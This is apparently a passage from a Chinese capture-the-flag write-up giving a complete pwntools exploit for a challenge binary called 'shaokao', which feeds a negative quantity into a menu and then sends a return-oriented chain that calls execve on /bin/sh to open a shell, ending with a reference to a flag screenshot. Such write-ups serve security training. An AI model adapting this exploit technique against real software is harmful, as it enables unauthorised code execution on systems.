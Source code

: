 exp如下：

~~~python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')

p = process("./shaokao")

pop_rax = 0x458827
pop_rdi = 0x40264f
pop_rsi = 0x40a67e
pop_rdx = 0x4a404b
name_addr = 0x4e40f0
syscall_addr = 0x402404

p.sendline('1')
p.sendline('1')
p.sendline('-10000')
p.sendline('4')
p.sendline('5')

payload = b'/bin/sh\x00' + b'a'*0x20 + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(name_addr) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(0) + p64(syscall_addr)

p.sendline(payload)
p.interactive()
~~~

运行结果：

![ret2syscall-flag](./assets/ret2syscall-flag.png)
